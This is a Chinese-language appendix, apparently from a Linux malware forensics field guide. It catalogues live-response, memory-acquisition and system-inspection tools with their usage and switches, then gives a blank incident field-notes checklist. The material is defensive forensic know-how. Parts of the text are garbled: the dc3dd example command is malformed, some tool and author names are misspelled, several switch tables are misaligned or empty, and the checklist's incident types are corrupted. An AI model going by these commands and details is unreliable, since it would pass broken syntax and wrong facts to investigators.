| **获取来源：** | https://www.e-fense.com/store/index.php?s=View&productid=11 |
| **描述：** | Helix事件响应光盘的较旧（非专有）版本包含一个自动化实时响应脚本（`linux-ir.sh`），用于从被入侵系统收集易失性数据。`linux-ir.sh`顺序调用超过120个静态编译的二进制文件（这些二进制文件不引用目标系统上的库）。该脚本存在若干不足，包括收集正在运行进程的信息有限以及对整个系统进行完整的目录列表。 |

| 字段 | 值 |
| :--- | :--- |
| **名称：** | Linux实时响应工具包 |
| **页码参考：** | 7 |
| **作者/发行商：** | Enno Evlers 和 Sebastian Krause |
| **获取来源：** | http://computer-forensik.org/tools/ix/; 和 http://evlers.net/llr |
| **描述：** | Linux实时响应 (llr) 工具包是一个强大的脚本，它调用超过80个受信任的静态二进制文件，从目标系统（内核版本 2.4 和 2.6）收集易失性和非易失性数据。与其他实时响应工具套件不同，llr 以自动化方式从目标系统收集物理（/dev/ram 和 /dev/kmem）和进程内存转储。由于 llr 工具包是在德国开发的，许多支持文档和说明都是德文，这可能要求数字取证调查员采取额外步骤（例如通过基于互联网的翻译服务如 Google 翻译进行翻译）和配置以确保有效使用。 |

### 远程收集工具

回想一下，在某些情况下，为了减少系统交互，最好从您受信任的工具包中本地部署实时响应工具到目标系统上，但远程收集获取的数据。此过程需要建立网络连接，通常使用 netcat 或 cryptocat 监听器，并将获取的系统数据通过网络传输到收集服务器。请记住，虽然这种方法减少了系统交互，但它依赖于能够通过网络监听器建立的端口遍历目标网络。

| 字段 | 值 |
| :--- | :--- |
| **名称：** | F-Response TACTICAL |
| **页码参考：** | 58 |
| **作者/发行商：** | Matthew Shannon / F-Response |
| **获取来源：** | http://www.f-response.com/ |
| **描述：** | 一种简化的现场实时响应解决方案，F-Response Tactical 使用独特的双U盘/存储设备解决方案，使数字取证调查员能够快速、无缝地进行远程法证数据收集，而对目标网络拓扑的了解有限。这两个双U盘——一个用于目标系统，一个用于检查员系统（如下所示）——作为一个对将远程目标系统连接到数字取证调查员的检查系统；TACTICAL 直接从U盘运行，目标系统无需安装。与 F-Response 的其他版本一样，除了 Linux 系统，TACTICAL 还可以获取 Windows 和 Macintosh OS X 目标系统。 |


如以下故事板图所示，TACTICAL “目标”U盘 插入目标系统时，包含“TACTICAL Subject”目录，其中包含 Windows、Linux 和 Macintosh OS X 系统的可执行文件。



一旦从命令行调用，Linux TACTICAL 目标可执行文件将启动 iSCSI 会话，如下面所示：

```
root@ubuntu: /media/SFS6C67/TACTICAL Subject$ # /f-response-tacusb-1im
F-Response TACTICAL Subject (Linux Utility)  Version 4.05.03
F-Response Disk: /dev/sda (81943040 sectors, 512 sector size)
20480 MB usable Managed Storage on F-Response Disk(s)
f-response disk: /dev/sdb (3847520 sectors, 512 sector size)
1867 MB free Blocked storage on F-Response Disk(s).
```


## 附录 1

在检查者系统（即数字调查员执行数据收集工作的系统）上，需连接配套的“Examiner”加密狗。如下图所示，TACTICAL “Examiner”加密狗内含“TACTICAL Examiner”目录，该目录下包含用于从命令行（f-response-taken-lin）或图形用户界面（f-response-taken-lin-gui）使用 Examiner 的 Linux 可执行文件。



启动后，数字调查员可以选择通过提供目标系统的详细信息（在图形用户界面中，如下所示）手动连接到目标系统，或者使用“自动连接”功能，该功能会尝试自动识别并获取目标系统。



获取完成后，TACTICAL Examiner 将提供已获取目标系统的详细信息。与 F-Response 的其他版本类似，一旦连接到目标系统，数字调查员即可使用其选择的工具从系统中收集数据。



| 名称 | Netcat |
| :--- | :--- |
| 页码参考 | 4 |
| 作者/分发者 | 原始实现由 “Hobbit” 完成；由 Eric Jackson 重写并支持 IPv6 |
| 获取来源 | http://netcat.sourceforge.net/nc/download.php |
| 描述 | 通常被称为工具的“瑞士军刀”，netcat 是一种功能强大的网络实用工具，使用 TCP/IP 协议在网络连接上读写数据。netcat 常被数字调查员在实时响应期间用作基于网络的传输解决方案。 |
| 有用开关 | |

| 开关 | 功能 |
| :--- | :--- |
| -l | 监听模式，用于传入连接 |
| -p | 本地端口号 |
| -h | 帮助菜单 |

| 名称 | Cryptcat |
| :--- | :--- |
| 页码参考 | 4 |
| 作者/分发者 | "Garm" 在 "Dan F. "、"Jeff Nathon"、"Matt W. "、Frank Knoble、"Dragos"、Bill Weiss 和 "Jimmy" 的帮助下开发 |
| 获取来源 | http://cryptcat.sourceforge.net/ |
| 描述 | 增强版 Netcat，支持 Twofish 加密 |

| 有用开关 | |
| :--- | :--- |
| 开关 | 功能 |
| :--- | :--- |
| -l | 监听模式，用于传入连接 |
| -p | 本地端口号 |
| -h | 帮助菜单 |

## 易失性数据收集与分析工具

### 物理内存获取

本从业人员指南强调，在使用实时响应工具包中的各种工具收集数据之前，首先从目标系统获取完整内存转储的重要性。这一点尤为重要，因为如果在目标系统上运行事件响应，将会改变内存中的内容。为了从物理内存中提取最多的数字证据，建议在执行任何其他事件响应过程之前先进行完整的内存捕获。下面介绍了一种用于完成此任务的各种工具。

| 名称 | LIME |
| :--- | :--- |
| 页码参考 | 19 |
| 作者/分发者 | Joe Slyvie |
| 获取来源 | http://code.google.com/p/lime-forensics/ |
| 描述 | Linux 内存提取器（LIME）是一个可加载的内核模块，旨在从 Linux 和 Android 系统中获取物理内存的内容。此实用工具支持将内存获取到本地文件系统（例如，可移动 USB 设备或 SDCard）或通过网络获取。 |
| 用法 | `./insmod /sdcard/lime.ko "path=/sdcard/cam.padded format=padded"` |

| 有用开关 | |
| :--- | :--- |
| 开关 | 功能 |
| :--- | :--- |
| path= | 保存获取数据的位置 |
| format= | Padded（填充）、time（时间戳）或 raw（原始） |
| dio= | 1 启用直接 IO 尝试（默认），0 禁用 |

| 名称 | SecondLook 物理内存获取脚本 (secondlook-memdump.sh) |
| :--- | :--- |
| 页码参考 | 18 |
| 作者/分发者 | Andrew Tappert/Raytheon PikeWorks |
| 获取来源 | http://pikeworks.com/sl |
| 描述 | SecondLook 物理内存获取脚本 (secondlook-memdump.sh) 使数字调查员能够使用 crash 驱动程序 (dev/crash) 从 Red Hat 或 CentOS Linux 系统收集物理内存，或使用用户指定的内存访问设备（如 dev/mem）或专用的 PikeWorks 物理内存访问驱动程序 (PMAD)（创建一个可访问的伪设备 dev/pmad）从其他系统收集物理内存。使用 secondlook-memdump.sh 收集的物理内存随后可以在 SecondLook 内存取证工具中进行检查。 |
| 用法 | `./secondlook-memdump.sh dumpfile [memdevice]` |

| 名称 | fmem |
| :--- | :--- |
| 页码参考 | 17 |
| 作者/分发者 | Ivor Kollar |
| 获取来源 | http://hysteria.sk/~nick0/fmem/ |
| 描述 | fmem 是随工具 Forensia（Forensic Ram Image ANAlyzer，取证 RAM 镜像分析仪）附带的一个自定义内核模块，它使数字调查员能够获取物理内存。特别是，fmem 内核模块 (fmem.ko) 创建了一个伪设备 /dev/fmem，类似于 dev/mem 但没有获取限制。可以使用 dd 或其他工具复制此伪设备（物理内存）。该工具有一个 shell 脚本 (run.sh) 来执行获取过程。 |

| 名称 | memdump |
| :--- | :--- |
| 页码参考 | 16 |
| 作者/分发者 | Dan Farmer 和 Wietse Venema |
| 获取来源 | http://www.porcupine.org/forensics/tct.html |
| 描述 | Cornèr's ToolKit 中的 memdump 命令，这是一套用于 Linux/UNIX 系统取证获取和分析的工具包，可用于将物理内存的内容保存到一个文件中。 |

| 名称 | `dc3dd` |
| :--- | :--- |
| 页码参考 | 8 |
| 作者/分发者 | Defense Cyber Crime Institute (DCCI) |
| 获取来源 | http://sourceforge.net/projects/dc3dd/ |
| 描述 | 在 Linux 系统上用于复制和转换文件的 `dc` 工具的一个取证增强附加组件，称为 `dc3dd` 实用工具。该工具的通用功能使数字调查员能够获取物理内存、硬盘和其他介质。 |

在 Linux 系统上获取物理内存的示例用法（/dev/mem 没有限制）：

```bash
dc3dd s:/dev/mem of:/media/lin/memdump.img
```

| 有用开关 | |
| :--- | :--- |
| 开关 | 功能 |
| :--- | :--- |
| `sse=<BYTES>` | 使用 BYTES 字节作为扇区大小 |
| `cnt=<SECTORS>` | 仅复制 SECTORS 个输入扇区 |
| `if=FILE` | 从 FILE 读取而不是从 stdin 读取 |
| `of=FILE` | 写入 FILE 而不是写入 stdout |
| `hash=md5` | 用于验证输入/输出的哈希算法：md5、sha1、sha256、sha384 或 sha512 |
| `hlog=` | 将 MD5 哈希输出发送到 FILE 而不是 stderr |
| `log=` | 记录所有 IO 统计信息、诊断信息和总哈希值的文件 |

## 收集目标系统详细信息

系统详细信息是理解恶意代码犯罪现场的一个基本方面。特别是，系统详细信息对于建立调查时间线以及在日志和其他取证工件中识别目标系统至关重要。除了本书中提到的工具外，还应考虑其他工具，包括：

| 名称 | `Uname` |
| :--- | :--- |
| 页码参考 | 23 |
| 作者/分发者 | David MacKenzie |
| 获取来源 | GNU `coreutils`（Linux 系统原生支持）；http://www.gnu.org/software/coreutils |
| 描述 | 显示系统信息，包括操作系统、内核版本、内核详细信息、网络主机名和硬件机器名称等信息。 |
| 有用开关 | |

| 开关 | 功能 |
| :--- | :--- |
| -a | 显示所有信息 |
| -s | 显示内核名称 |
| -n | 显示网络节点名称 |
| -r | 显示内核发行版本 |
| -m | 显示机器名称 |
| -o | 显示操作系统 |
| -i | 显示硬件平台 |
| -p | 显示处理器 |

| 名称 | linuxinfo |
| :--- | :--- |
| 页码参考 | 23 |
| 作者/分发者 | Alex Buell |
| 获取来源 | http://www.munted.org.uk/programming/linuxinfo-1.1.3.tar.gz |
| 描述 | 显示系统详细信息；无需命令开关： |

```bash
mailwarelab@ubuntu:~$ linuxinfo
Linux ubuntu 2.6.35-32-generic #33-Ubuntu SMP Mon Mar 19 20:34:50 UTC 2012
Genuine Intel Unknown 1596MHz processor, 3192.30 total bogomips, 1015M RAM
System library 2.12.1
```

| 名称 | id |
| :--- | :--- |
| 页码参考 | 21 |
| 作者/分发者 | Arnold Robbins 和 David MacKenzie |
| 获取来源 | GNU coreutils（Linux 系统原生支持）；http://www.gnu.org/software/coreutils |
| 描述 | 显示目标用户的用户和组信息，或者如果未查询目标用户，则显示当前用户的用户和组信息。 |
| 有用开关 | |

| 开关 | 功能 |
| :--- | :--- |
| -n | 对于 -u、-g、-G，打印名称而不是数字 |
| -u | 仅打印有效用户 ID |
| -g | 仅打印有效组 ID |
| -G | 打印所有组 ID |

| 名称 | whoami |
| :--- | :--- |
| 页码参考 | 21 |
| 作者/分发者 | 未知 |
| 获取来源 | GNU coreutils（Linux 系统原生支持）；http://www.gnu.org/software/coreutils |
| 描述 | 显示当前用户的名称；无需开关。 |

| 名称 | printenv |
| :--- | :--- |
| 页码参考 | 23 |
| 作者/分发者 | David MacKenzie 和 Richard Murniak |
| 获取来源 | GNU coreutils（Linux 系统原生支持）；http://www.gnu.org/software/coreutils |
| 描述 | 显示环境变量。无需开关，但可以查询特定变量以隔离和细化输出（例如 printenv PATH）。 |


## **sa**（系统会计信息）

页码参考：24

作者/分发者：Noel Cragg

获取来源：http://www.gnu.org/software/acct/

描述：作为 GNU 会计实用程序（开发用于为 GNU/Linux 及其他系统提供登录和进程会计实用程序）的一部分，`sa` 实用程序收集并显示来自系统 **acct**（进程会计文件）的信息。当在目标系统上启用进程会计时，内核会在系统中的每个进程终止时将一条记录写入 **acct** 文件。

### 常用开关：

| 开关 | 功能 |
| :--- | :--- |
| -u | 对于会计文件中的每个命令，打印用户 ID 和命令名称 |
| -m | 按用户显示进程数和 CPU 分钟数 |
| -t | 对于每个条目，打印实际时间与系统时间和用户时间之和的比值 |

## **sar**

页码参考：25

作者/分发者：Sebastien Godard

获取来源：包含在 Linux 的 Sysstat 实用程序中，http://sebastien.godard.pagesperso-orange.fr/index.html

描述：收集并显示广泛的系统活动信息。

## **ifconfig**

页码参考：21

作者/分发者：Fred N. van Kempen, Alan Cox, Phil Blundell, Andi Kleen, and Bernd Eckels

获取来源：Linux 系统原生支持

描述：显示网络接口详情和配置选项。

### 常用开关：

| 开关 | 功能 |
| :--- | :--- |
| -a | 显示目标系统上当前可用的所有接口，即使接口处于关闭状态 |
| -s | 显示简短的网络接口列表（类似于 **netstat -i**） |

## **ifdata**

页码参考：21

作者/分发者：

获取来源：大多数 Linux 发行版原生支持

描述：显示网络接口详情。

### 常用开关：

| 开关 | 功能 |
| :--- | :--- |
| -p | 显示完整的接口配置 |
| -pa | 显示接口的 IPv4 地址 |
| -ph | 显示接口的硬件地址 |
| -pn | 显示接口的网络地址 |

## 识别登录到系统的用户

请记住，识别登录到目标系统的用户具有多种调查目的：(1) 有助于发现任何潜在入侵者登录到被入侵系统；(2) 识别其他被入侵的系统；(3) 通过与其他证据相关联，提供关于内部人员恶意软件事件的见解和额外的调查背景。还可以考虑用于此任务的其他工具包括：

### **w**

页码参考：26

作者/分发者：Charles Blake, （基于 Larry Greenfield 和 Michael K. Johnson 的版本重写）

获取来源：大多数 Linux 发行版原生支持

描述：显示已登录用户及相关活动。

**常用开关：**

| 开关 | 功能 |
| :--- | :--- |
| -u | 忽略用户名并识别当前进程和 CPU 时间。 |
| -s | “简短”或简略列表，不包括登录时间、ICPU 或 PCPU 时间。 |
| user | 仅显示有关指定用户的信息 |

### **who**

页码参考：26

作者/分发者：Joseph Arceneaux, David MacKenzie, and Michael Stone

获取来源：GNU coreutils（Linux 系统原生支持）；http://www.gnu.org/software/coreutils

描述：显示当前登录用户的信息。

**常用开关：**

| 开关 | 功能 |
| :--- | :--- |
| -u | 全部 |
| -b | 上次系统引导时间 |
| -d | 显示已终止的系统进程 |
| -ips | 显示 IP 地址而不是主机名 |
| -lookup | 尝试通过 DNS 规范化主机名 |
| -l | 显示系统登录进程 |
| -q | 显示所有登录名和登录用户数 |
| -r | 显示当前运行级别 |

### **finger**

页码参考：26

作者/分发者：David Zimmerman/Les Earnest

获取来源：大多数 Linux 发行版原生支持

描述：用户信息查找程序

**常用开关：**

| 开关 | 功能 |
| :--- | :--- |
| | Finger 显示用户的登录名、真实姓名、终端名称和写入状态（如果拒绝写入权限，则在终端名称后显示“ - ”）、空闲时间、登录时间、办公地点和办公电话号码。登录时间显示为月份、日期、小时和分钟，除非是六个月前，在这种情况下，显示年份而不是小时和分钟。未知设备以及不存在的空闲时间和登录时间显示为单个星号。 |
| -s | 生成多行格式，显示 -s 选项描述的所有信息，以及用户的主目录、家庭电话号码、登录 shell、邮件状态以及用户主目录中“.plan”、“.project”、“.pgpkey”和“.forward”文件的内容。 |
| -l | |

### **last**

页码参考：64

作者/分发者：Miquel van Snooerenburg

获取来源：大多数 Linux 发行版原生支持

描述：通过查询 /var/log/wtmp 文件（自该文件创建以来）显示最后登录用户的列表。

**常用开关：**

| 开关 | 功能 |
| :--- | :--- |
| -f | 指定工具使用特定文件而不是 /var/log/wtmp |
| -t YYYYMMDDHHHMMSS | 显示指定时间点的登录状态。这对于识别在特定时间登录的用户很有用。对于远程登录，Linux 存储远程主机的名称和相关 IP 地址。此选项将 IP 地址转换回主机名。 |
| -d | 此选项类似于 -t，它以标准八进制格式显示远程主机的 IP 地址。 |
| -i | |

### **users**

页码参考：26

作者/分发者：Joseph Arcenueus and David MacKenzie

获取来源：GNU *coreutils*（Linux 系统原生支持），http://www.gnu.org/software/coreutils

描述：显示当前登录到目标系统的用户名。无需命令开关。

## 网络连接和活动

恶意软件的网络连接性是识别和记录的关键因素；目标系统的连接分析可能会揭示与攻击者的命令和控制结构的通信、额外恶意文件的下载、或数据泄露等行为。除了 `netstat` 和 `iostat` 之外，还应考虑其他工具如 `fuser`、`route`、`socklist` 和 `ss`。

### **fuser**

页码参考：42

作者/分发者：Werner Almesberger and Craig Small

获取来源：大多数 Linux 发行版原生支持

描述：显示使用文件或套接字的进程

**常用开关：**

| 开关 | 功能 |
| :--- | :--- |
| -u | “user”。在每个 PID 后附加进程所有者的用户名。例如，查询与可疑 up 端口 52475 关联的 PID，使用：`fuser -u 52475/udp` |
| -n | “名称空间”变量。支持名称空间文件（目标文件名，这是默认值）、udp（本地 UDP 端口）和 tcp（本地 TCP 端口）。例如，查询与可疑 TCP 端口 3329 关联的 PID 和用户，使用：`fuser -nsw tcp 3329` |
| -v | 详细模式 |

### **route**

页码参考：28

作者/分发者：最初由 Fred N. van Kempen 编写，随后由 Johannes Stille 和 Linus Torvalds 修改。当前由 Phil Blundell 和 Bernd Eckenfels 维护

获取来源：大多数 Linux 发行版原生支持

描述：显示目标系统上的 IP 路由表。

### **socklist**

页码参考：28

作者/分发者：Larry Doolittle

获取来源：大多数 Linux 发行版原生支持

描述：显示打开的套接字列表，包括类型、端口、inode、uid、pid 和相关程序。

### **ss (socket statistics)**

页码参考：28

作者/分发者：Alexey Kuznetsov

获取来源：大多数 Linux 发行版原生支持

描述：用于检查套接字的通用实用程序

**常用开关：**

| 开关 | 功能 |
| :--- | :--- |
| -a | 显示所有套接字 |
| -l | 显示正在监听的套接字 |
| -e | 显示详细的套接字信息 |
| -m | 显示套接字内存使用情况 |
| -p | 显示使用套接字的进程 |
| -i | 显示内部 TCP 信息 |
| -t | 仅显示 TCP 套接字 |
| -u | 仅显示 UDP 套接字 |

## 进程分析

由于许多恶意软件样本（如蠕虫、病毒、机器人、键盘记录器和木马）通常以进程形式出现在目标系统上，因此在恶意代码实时响应取证中，收集与目标系统上运行的进程相关的信息是必不可少的。进程分析应全面进行——检查可疑进程的所有相关方面，如本从业者指南中所述。以下是供您实时响应工具包考虑的额外工具。

### **pslist**

页码参考：31

作者/分发者：Peter Penchev

获取来源：https://launchpad.net/ubuntu/lucid/386/pslist/1.3-1

描述：收集目标进程详细信息，包括进程 ID（PID）、命令名称和所有子进程的 PID。目标进程可以按名称或 PID 指定。


## pstree
**名称：** pstree
**页码参考：** 35
**作者/分发者：** Werner Almesberger 和 Craig Small
**获取方式：** 大多数 Linux 发行版原生自带
**描述：** 以文本形式显示运行中进程的树状层级结构（父级/祖级及子级进程）。

**常用开关：**
- `-a` 显示命令行参数
- `-A` 使用 ASCII 字符绘制树状图
- `-h` 突出显示当前进程及其祖级进程
- `-H` 突出显示指定进程
- `-l` 显示长行
- `-n` 按 PID 而非名称对具有相同祖级进程的进程进行排序。
- `-p` 显示 PID
- `-u` 显示 uid 转换

## vstat
**名称：** vstat
**页码参考：** 31
**作者/分发者：** Henry Ware, Fabian Fréderick
**获取方式：** 大多数 Linux 发行版原生自带
**描述：** 报告虚拟内存统计信息（进程、内存等）。

## dstat
**名称：** dstat
**页码参考：** 31
**作者/分发者：** Dag Wieers
**获取方式：** http://dag.wieers.com/home-made/dstat/
**描述：** 报告稳健的系统统计信息；vstat 的替代工具。

## iostat
**名称：** iostat
**页码参考：** 31
**作者/分发者：** Sebastien Godard
**获取方式：** 大多数 Linux 发行版原生自带
**描述：** 监控输入/输出设备。

## procrainfo
**名称：** procrainfo
**页码参考：** 31
**作者/分发者：** Adam Schrittenboer
**获取方式：** Sander Van Maasen
**描述：** 显示从 /proc 目录收集的系统状态详细信息

# 附录 1

## pgrep
**名称：** pgrep

## pmap
**名称：** pmap

# 已加载模块

## lsmod
**名称：** lsmod

## modinfo
**名称：** modinfo

# 打开的文件

目标系统上打开的文件可能为了解事件所涉及的恶意软件的性质和用途提供线索，同时也为调查提供相关取证材料。在本书中，我们检查了工具 lsof；另一个值得考虑的工具是 fuser。

## fuser
**名称：** fuser
**页码参考：** 44
**作者/分发者：** Werner Almesberger；Craig Small
**获取方式：** 大多数 Linux 发行版原生自带
**描述：** 显示使用文件或套接字的进程

**常用开关：**
- `-u` "用户"。在每个 PID 后附加进程所有者的用户名。例如，要查询与可疑文件 libnss_dns-2.12.1.so 相关的用户和 PID，请使用：
  ```
  $fuser -u /lib/libnss_dns-2.12.1.so
  /lib/libnss_dns-2.12.1.so: 5365p(fvclient)
  ```
- `-n` "命名空间"变量。支持命名空间（目标文件名，这是默认值）、udp（本地 UDP 端口）和 tcp（本地 TCP 端口）。
- `-v` 详细模式

# 命令历史

## lastcomm
**名称：** lastcomm
**页码参考：** 48
**作者/分发者：** Noel Cragg
**获取方式：** GNU 核算实用工具，http://www.gnu.org/software/acct/
**描述：** 显示目标系统上之前执行命令的信息。

**常用开关：**
- `--strict-match` 仅显示与命令行中所有参数都匹配的条目。
- `--user` 显示对应用户名的记录
- `--command` 显示对应命令名的记录
- `--tty` 显示对应 tty 名的记录
- `--pid` 显示对应 PID 的记录

# 现场响应：现场笔记

| 案件编号： | | 日期/时间： | |
| :--- | :--- | :--- | :--- |
| 数字取证调查员： | | | |
| 组织/公司： | | 地址： | |
| 事件类型： | ☑特洛伊木马 ☑蠕虫 ☑病毒 ☑Ike ☑Screenio/Hogue AV ☑W001it ☑逻辑炸弹 ☐Redigger ☐勒索软件 ☐Boofie ☐其他 ☐未知 | | |
| 系统信息： | 制造商/型号： | | |
| 序列号： | | 系统物理位置： | |
| 操作系统： | 系统状态： | 网络状态： | |
| ☑已开机 ☑休眠中 ☑已关机 | ☑已连接互联网 ☑已连接内网 ☑已断开连接 | | |
| **易失性数据** | | | |
| 物理内存： | | | |
| ☐已采集 ☐未采集 [原因]： | | | |
| ☐日期/时间： ☐文件名： ☐大小： | ☐MD5 值： ☐SHA1 值： ☐使用的工具： | | |
| 系统详情： | | | |
| ☐日期/时间： ☐IP 地址： | ☐主机名/网络名称： | | |
| ☐当前系统用户： | | | |
| ☐网络接口配置： | | | |
| ☐混杂模式 ☐其他： | | | |
| ☐系统运行时间： | | | |
| ☐系统环境： | | | |
| ☐操作系统： ☐内核版本： ☐处理器： | | | |
| 登录系统的用户： | | | |
| ☐登录系统的用户： | | | |
| ☐用户源点： | | | |
| ☐远程登录 ☐本地登录 | | | |
| ☐登录会话持续时间： | | | |
| ☐用户访问的共享、文件或其他资源： | | | |
| ☐与用户相关的进程： | | | |

# 附录 2

| | |
| :--- | :--- |
| ◻ **归因于用户的网络活动：** | |
| **登录系统的用户**：<br>◦ 用户源点：<br>◦ 远程登录<br>◦ 本地登录<br>◦ 登录会话持续时间：<br>◦ 用户访问的共享、文件或其他资源：<br>◦ 与用户相关的进程：<br>◦ 归因于用户的网络活动： | |
| **网络连接和活动：**<br><br>◪ **系统已连接到网络：**<br>◪ **网络连接：** | ◪ **协议：**<br>◦ TCP<br>◦ UDP<br>◦ 本地端口： <br>◦ 状态：<br>◦ ESTABLISHED（已建立）<br>◦ LISTEN（监听）<br>◦ SYN_SEND<br>◦ SYN_RECEIVED<br>◦ TIME_WAIT<br>◦ 其他：<br>◦ 外方连接地址：<br>◦ 外方连接端口：<br>◦ 与连接相关的进程 ID： |
| ◪ **协议：**<br>◦ TCP<br>◦ UDP<br>◦ 本地端口： <br>◦ 状态：<br>◦ ESTABLISHED（已建立）<br>◦ LISTEN（监听）<br>◦ SYN_SEND<br>◦ SYN_RECEIVED<br>◦ TIME_WAIT<br>◦ 其他：<br>◦ 外方连接地址：<br>◦ 外方连接端口：<br>◦ 与连接相关的进程 ID： | ◪ **协议：**<br>◦ TCP<br>◦ UDP<br>◦ 本地端口： <br>◦ 状态：<br>◦ ESTABLISHED（已建立）<br>◦ LISTEN（监听）<br>◦ SYN_SEND<br>◦ SYN_RECEIVED<br>◦ TIME_WAIT<br>◦ 其他：<br>◦ 外方连接地址：<br>◦ 外方连接端口：<br>◦ 与连接相关的进程 ID： |
| ◪ **协议：**<br>◦ TCP<br>◦ UDP<br>◦ 本地端口： <br>◦ 状态：<br>◦ ESTABLISHED（已建立）<br>◦ LISTEN（监听）<br>◦ SYN_SEND<br>◦ SYN_RECEIVED<br>◦ TIME_WAIT<br>◦ 其他：<br>◦ 外方连接地址：<br>◦ 外方连接端口：<br>◦ 与连接相关的进程 ID： | ◪ **协议：**<br>◦ TCP<br>◦ UDP<br>◦ 本地端口： <br>◦ 状态：<br>◦ ESTABLISHED（已建立）<br>◦ LISTEN（监听）<br>◦ SYN_SEND<br>◦ SYN_RECEIVED<br>◦ TIME_WAIT<br>◦ 其他：<br>◦ 外方连接地址：<br>◦ 外方连接端口：<br>◦ 与连接相关的进程 ID： |
| ◪ **目标系统发出的显著 DNS 查询：** | |

# ✅ 已收集 ARP 缓存

# **正在运行的进程：**

-   ✅ 已识别可疑进程：
    -   ☐ 进程名称：
    -   ☐ 进程标识符 (PID)：
    -   ☐ 进程运行持续时间：
    -   ☐ 使用的内存：
    -   ☐ 关联可执行文件的路径：
    -   ☐ 关联用户：
    -   ☐ 子进程：
        -   ☐
        -   ☐
    -   ☐ 命令行参数：
    -   ☐ 已加载的库/模块：
        -   ☐
        -   ☐
        -   ☐
        -   ☐
        -   ☐
        -   ☐
        -   ☐
    -   ☐ 导出的库/模块：
        -   ☐
        -   ☐
    -   ☐ 进程内存已采集
    -   ☐ 文件名：
    -   ☐ 文件大小：
    -   ☐ MD5 哈希值：

-   ✅ 已识别可疑进程：
    -   ☐ 进程名称：
    -   ☐ 进程标识符 (PID)：
    -   ☐ 进程运行持续时间：
    -   ☐ 使用的内存：
    -   ☐ 关联可执行文件的路径：
    -   ☐ 关联用户：
    -   ☐ 子进程：
        -   ☐
        -   ☐
    -   ☐ 命令行参数：
    -   ☐ 已加载的库/模块：
        -   ☐
        -   ☐
        -   ☐
        -   ☐
        -   ☐
        -   ☐
        -   ☐
    -   ☐ 导出的库/模块：
        -   ☐
        -   ☐
    -   ☐ 进程内存已采集
    -   ☐ 文件名：
    -   ☐ 文件大小：
    -   ☐ MD5 哈希值：

-   ✅ 已识别可疑进程：
    -   ☐ 进程名称：
    -   ☐ 进程标识符 (PID)：
    -   ☐ 进程运行持续时间：
    -   ☐ 使用的内存：
    -   ☐ 关联可执行文件的路径：
    -   ☐ 关联用户：
    -   ☐ 子进程：
        -   ☐
        -   ☐
    -   ☐ 命令行参数：
    -   ☐ 已加载的库/模块：

-   ✅ 已识别可疑进程：
    -   ☐ 进程名称：
    -   ☐ 进程标识符 (PID)：
    -   ☐ 进程运行持续时间：
    -   ☐ 使用的内存：
    -   ☐ 关联可执行文件的路径：
    -   ☐ 关联用户：
    -   ☐ 子进程：
        -   ☐
        -   ☐
    -   ☐ 命令行参数：
    -   ☐ 已加载的库/模块：


## 附录 2

- 已识别可疑进程：
    - 进程名称：
    - 进程标识符（PID）：
    - 进程运行时长：
    - 使用的内存：
    - 关联可执行文件路径：
    - 关联用户：
    - 子进程：
    - 命令行参数：
    - 已加载的库/模块：
    - 已导出的库/模块：
    - 获取的进程内存
        - 文件名：
        - 文件大小：
        - MD5 哈希值：

- 已识别可疑进程：
    - 进程名称：
    - 进程标识符（PID）：
    - 进程运行时长：
    - 使用的内存：
    - 关联可执行文件路径：
    - 关联用户：
    - 子进程：
    - 命令行参数：
    - 已加载的库/模块：
    - 已导出的库/模块：
    - 获取的进程内存
        - 文件名：
        - 文件大小：
        - MD5 哈希值：

### 端口和进程关联：

- 已识别可疑端口：
    - 本地 IP 地址：
    - 端口号：
    - 远程 IP 地址：
    - 端口号：

- 已识别可疑端口：
    - 本地 IP 地址：
    - 端口号：
    - 远程 IP 地址：
    - 端口号：

- 远程主机名：
- 协议：
    - TCP
    - UDP
- 连接状态：
    - ESTABLISHED（已建立）
    - LISTEN（监听）
    - SYN_SEND（同步发送）
    - SYN_RECEIVED（同步接收）
    - TIME_WAIT（等待超时）
    - 其他：___
- 与打开的端口关联的进程名称和标识符（PID）：
- 与该进程和端口关联的可执行程序：
- 关联可执行文件路径：___
- 关联用户：

- 远程主机名：
- 协议：
    - TCP
    - UDP
- 连接状态：
    - ESTABLISHED（已建立）
    - LISTEN（监听）
    - SYN_SEND（同步发送）
    - SYN_RECEIVED（同步接收）
    - TIME_WAIT（等待超时）
    - 其他：___
- 与打开的端口关联的进程名称和标识符（PID）：
- 与该进程和端口关联的可执行程序：
- 关联可执行文件路径：___
- 关联用户：

- **已识别可疑端口：**
    - 本地 IP 地址：___ 端口号：___
    - 远程 IP 地址：___ 端口号：___
    - 远程主机名：
    - 协议：
        - TCP
        - UDP
    - 连接状态：
        - ESTABLISHED（已建立）
        - LISTEN（监听）
        - SYN_SEND（同步发送）
        - SYN_RECEIVED（同步接收）
        - TIME_WAIT（等待超时）
        - 其他：___
    - 与打开的端口关联的进程名称和标识符（PID）：
    - 与该进程和端口关联的可执行程序：
    - 关联可执行文件路径：___
    - 关联用户：

- **已识别可疑端口：**
    - 本地 IP 地址：___ 端口号：___
    - 远程 IP 地址：___ 端口号：___
    - 远程主机名：
    - 协议：
        - TCP
        - UDP
    - 连接状态：
        - ESTABLISHED（已建立）
        - LISTEN（监听）
        - SYN_SEND（同步发送）
        - SYN_RECEIVED（同步接收）
        - TIME_WAIT（等待超时）
        - 其他：___
    - 与打开的端口关联的进程名称和标识符（PID）：
    - 与该进程和端口关联的可执行程序：
    - 关联可执行文件路径：___
    - 关联用户：

- **已识别可疑端口：**
    - 本地 IP 地址：___ 端口号：___
    - 远程 IP 地址：___ 端口号：___
    - 远程主机名：
    - 协议：
        - TCP
        - UDP
    - 连接状态：
        - ESTABLISHED（已建立）
        - LISTEN（监听）
        - SYN_SEND（同步发送）
        - SYN_RECEIVED（同步接收）
        - TIME_WAIT（等待超时）
        - 其他：___
    - 与打开的端口关联的进程名称和标识符（PID）：
    - 与该进程和端口关联的可执行程序：
    - 关联可执行文件路径：___
    - 关联用户：

- **已识别可疑端口：**
    - 本地 IP 地址：___ 端口号：___
    - 远程 IP 地址：___ 端口号：___
    - 远程主机名：
    - 协议：
        - TCP
